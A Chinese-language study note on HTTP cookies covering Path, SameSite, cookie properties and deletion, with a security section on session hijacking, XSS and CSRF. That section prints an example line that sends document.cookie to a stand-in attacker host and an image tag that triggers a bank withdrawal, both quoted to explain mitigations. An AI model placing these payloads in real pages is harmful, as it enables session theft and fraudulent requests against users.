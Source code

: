 - ` Path ` ==> 制定了主机下哪些路径可以接收 Cookie（该 URL 路径必须存在于请求 URL 中）。例如，设置 ` Path = /docs `，那么以下路径都会匹配 ` /docs ` | ` /docs/web ` | ` /docs/web/http `

##### SameSite Cookie
SameSite Cookie 允许服务器指定在跨站请求时该 Cookie 是否会被发送，从而可以阻止跨站请求伪造攻击（CSRF）

### 安全
##### 会话挟持和 XSS
在 web 应用中，Cookie 常用来标记用户或授权会话，因此如果 web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
` HttpOnly ` 类型的 Cookie 由于阻止了 JS 对 Cookie 的操作而能在一定程度上缓解此类攻击

##### CSRF（跨域请求伪造）
如果在不安全的聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求
```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当打开含有这张图片的 HTML 页面时，如果之前登录了银行账号并且 Cookie 仍然有效（还没有其他验证步骤），银行中的钱会被自动转走。
###### 阻止 CSRF
1. 对用户输入进行过滤来阻止 XSS
2. 任何敏感操作都需要确认
3. 用于敏感信息的 Cookie 只能拥有较短的生命周期


### Cookie 特点
1. Cookie 储存用户信息
2. 服务器通过 ` Set-Cookie ` 响应头设置 Cookie 
3. 浏览器得到 Cookie 后，每次请求相同域名都要带上 Cookie 
4. 服务器通过 Cookie 得知是哪个用户（` request.headers.cookie ` // 读取 Cookie ）
5. Cookie 存储在本地的一个文件中
6. Cookie 不安全，用户可以通过开发者工具 Application/Cookie 可以进行修改，或者 JS 的 ` document.cookie ` 进行修改
7. 每个浏览器的 Cookie 不同
8. Cookie 有时效性
9. 后端可以强制设置 Cookie 有效期
10. Cookie 按域名划分。一个网站只会带着自己域名的 Cookie ，不会带着其他域的 Cookie 

##### Cookie 说明
Cookie 大小受限，每次请求新的页面 Cookie 都会被发送过去。Cookie 不能跨域调用。Cookie 的作用是与服务器进行交互，Cookie 作为 HTTP 规范的一部分存在 

##### 删除 Cookie
- 服务器端可以通过设置 Expires、max-age 两个标签将 Cookie 设置为过期状态
- JavaScript 可以通过document.cookie API 删除 Cookie


# 相关知识点
1. ` formdata ` 是一段一段上传的，上传时会触发 ` data ` 事件（node http get post data）

2. 前端是不安全的，所以前端可以不进行验证，但是后端必须进行验证。用户可以通过 ` curl ` 发送请求，这样就越过了前端 JS
